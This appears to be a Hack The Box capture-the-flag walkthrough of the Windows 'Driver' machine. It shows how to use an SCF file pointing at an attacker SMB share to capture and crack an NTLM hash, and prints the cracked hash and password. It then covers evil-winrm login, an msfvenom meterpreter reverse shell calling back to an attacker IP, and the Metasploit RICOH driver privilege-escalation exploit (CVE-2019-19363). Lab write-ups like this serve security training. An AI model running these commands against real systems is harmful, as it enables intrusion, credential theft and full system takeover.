



# HTB Driver Walkthrough

## Overview
The "Driver" machine is a Windows system with a focus on printer-related vulnerabilities. During the initial scan, we found several services running, including a web server on port 80, SMB (file sharing) on port 445, and WinRM (remote management) on port 5985.

Upon visiting the website, we found it protected by basic HTTP authentication. After testing common login credentials, we successfully logged in with admin:admin.

The site allows users to upload printer firmware for testing purposes. By uploading a malicious file, we captured an NTLM hash for the user tony. After cracking the hash, we obtained tony's plaintext password, which we used to log in through WinRM.

With a meterpreter session established, we discovered a vulnerability in a printer driver on the machine. By exploiting this, we were able to escalate our privileges and gain full control of the system as NT AUTHORITY\SYSTEM.

## Enumeration

```bash
nmap -sC -sV 10.10.11.106 -oA nmap -Pn
```

**The `nmap` scan revealed the following:**




HTTP and HTTPS ports are open, indicating that a website is running on the machine.

While exploring the site, we found an upload form for submitting printer firmware. We attempted to upload various file types to check if the site was vulnerable to malicious file uploads.

After uploading a text file, we confirmed that the website accepts all file types, not just firmware files.




## Exploitation
We attempt to upload a reverse shell PHP script, but we don't know where the uploaded file is saved, so we use responder and upload a Shell Command File (.scf) instead.

This sets up a shortcut with an icon and a task:
```shell
shell
Copy code
[Shell] 
Command=2 
IconFile=\\10.10.14.4\tools\nc.ico 
[Taskbar] 
Command=ToggleDesktop
```
**Code Explanation**

This code sets up a shortcut with an icon and a task:
    1. [Shell] Section:
        ○ Command=2: Specifies an action to be triggered when the shortcut is used.
        ○ IconFile=\\10.10.14.4\tools\nc.ico: Sets the icon for the shortcut, located on a network server.
    2. [Taskbar] Section:
        ○ Command=ToggleDesktop: Makes the desktop visible or hidden when the shortcut is clicked.


Now we got Tony's hash from the responder instance, we will save it and try to crack it using hashcat

We can check the mode in hash examples page (https://hashcat.net/wiki/doku.php?id=example_hashes) on what mode we can use for this type of hash format.

It appears that this pattern can be cracked using mode 5600.


### Cracking the hash:
```bash
sudo hashcat -m 5600 -a 0 creds ../rockyou.txt
```

### Resulting in the credentials:
TONY::DRIVER:761aafd90d674083:a69a508f1b8ca375c7a448f20ab6c86c:0101000000000000805903ada750db01cbedd701ee663b0c0000000002000800350047004b00300001001e00570049004e002d004c003600350045004e00590030004f0053005900570004003400570049004e002d004c003600350045004e00590030004f005300590057002e00350047004b0030002e004c004f00430041004c0003001400350047004b0030002e004c004f00430041004c0005001400350047004b0030002e004c004f00430041004c0007000800805903ada750db010600040002000000080030003000000000000000000000000020000015fa900ffaa2d142cc48a6e61eaa29772377532cf06d868a08bbfbfe5301667d0a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e003600000000000000000000000000:liltony

tony:liltony


### We use evil-winrm to log in as Tony:
```bash
evil-winrm  -i driver.htb -u tony -p liltony
```



## Privilege Escalation

We generate a reverse shell payload using msfvenom then upload it to the victim's machine via evil-winrm:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.6 LPORT=9001 -f exe > shell.exe
```
In the victim's machine
```powershell
upload shell.exe
```

### Set up msfconsole to catch the reverse shell:
```bash
use windows/x64/meterpreter/reverse_tcp
set LHOST tun0
set LPORT 9001
exploit
```
Run shell.exe within the evil-winrm session, and we gain a meterpreter session.
```powershell
.\shell
```

We need to have an interactive shell as well. Within the meterpreter session of our shell.exe, we need to migrate to explorer that has a session of 1
```bash
ps # to check for any running process that we can migrate into
migrate "PID" # found out that explorer.exe is a potential process, we migrate to it using its PID
```

Now that we have an interactive session, we need to put our meterpreter session in the background by doing this. We will then search a possible priv esc exploit to gain admin in this machine. We first put our current session in the background
```bash
Ctrl + Z
Y
```
And then search an exploit using local exploit suggester
```bash
search local_exploit_suggester
use multi/recon/local_exploit_suggester
set session 1
run
```

While local_exploit_suggester is looking for possible exploits, we can check Tony's PowerShell history for vulnerabilities in our evil-winrm session:

```powershell
cat C:\Users\Tony\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```
We found at a RICOH driver that is vulnerable to CVE-2019-19363
https://nvd.nist.gov/vuln/detail/CVE-2019-19363

### Exploiting RICOH driver vulenrability
Finding a vulnerable printer driver (RICOH), we use the exploit:

```bash
use windows/local/ricoh_driver_privesc
set session 1
set LHOST tun0
set payload windows/x64/meterpreter/reverse_tcp
```
List all the sessions to see the new admin session:
```bash
sessions -l
```
Now we open the session and capture the admin flag
```bash
sessions -i 2
```
